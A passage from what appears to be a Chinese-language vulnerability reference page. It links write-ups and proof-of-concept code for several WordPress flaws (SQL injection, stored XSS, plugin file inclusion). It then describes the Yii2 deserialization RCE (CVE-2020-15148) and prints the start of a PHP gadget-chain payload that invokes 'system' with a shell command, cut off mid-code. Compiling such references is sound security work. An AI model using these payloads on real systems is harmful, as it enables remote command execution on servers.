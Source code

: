 **WordPress <= 5.3.? DoS**
- POC | Payload | exp
    - [wordpress-dos-poc](https://github.com/roddux/wordpress-dos-poc)

**CVE-2022-21661 WP_Query SQLinj**
- 相关文章
    - [SQL Injection in Wordpress core (CVE-2022–21661)](https://cognn.medium.com/sql-injection-in-wordpress-core-zdi-can-15541-a451c492897)
    - [CVE-2022–21661 WordPress核心框架WP_Query SQL注入漏洞原理分析与复现](https://mp.weixin.qq.com/s/-rCsc_y04wxUhXdGH8mR_g)
    - [CVE-2022-21661: EXPOSING DATABASE INFO VIA WORDPRESS SQL INJECTION](https://www.zerodayinitiative.com/blog/2022/1/18/cve-2021-21661-exposing-database-info-via-wordpress-sql-injection)

**CVE-2022-21662 WordPress 5.8.2 Stored XSS Vulnerability**
- 相关文章
    - [WordPress 5.8.2 Stored XSS Vulnerability](https://blog.sonarsource.com/wordpress-stored-xss-vulnerability)
    - [CVE-2022–21662 WordPress核心框架存储型XSS漏洞分析与复现](https://mp.weixin.qq.com/s/uvWOBoYSsh1CteAsEyqBPg)

**插件漏洞**
- **WordPress Plugin Mail Masta 1.0 - Local File Inclusion**
    - https://www.exploit-db.com/exploits/40290

---

### Yii

> 官网 : https://www.yiichina.com/

Yii2 是一个高性能，基于组件的开源 PHP 框架，用于快速开发现代 Web 应用程序。

**CVE-2020-15148 Yii 框架反序列化 RCE**
- 简介

    Yii Framework 2 在其 9月14 日发布的更新日志中公布了一个反序列化远程命令执行漏洞(CVE-2020-15148)。官方通过给yii\db\BatchQueryResult类加上__wakeup()函数，禁用了yii\db\BatchQueryResult的反序列化，阻止了应用程序对任意用户输入调用’unserialize()’造成的远程命令执行。

- 影响版本
    - Yii2 Version < 2.0.38

- 相关文章
    - [CVE-2020-15148 Yii2反序列化RCE POP链分析](https://mp.weixin.qq.com/s/NHBpF446yKQbRTiNQr8ztA)

- POC | Payload | exp
    ```
    <?php
    namespace yii\rest{
        class CreateAction{
            public $checkAccess;
            public $id;

            public function __construct(){
                $this->checkAccess = 'system';
                $this->id = 'ls -al';
            }
        }
    }
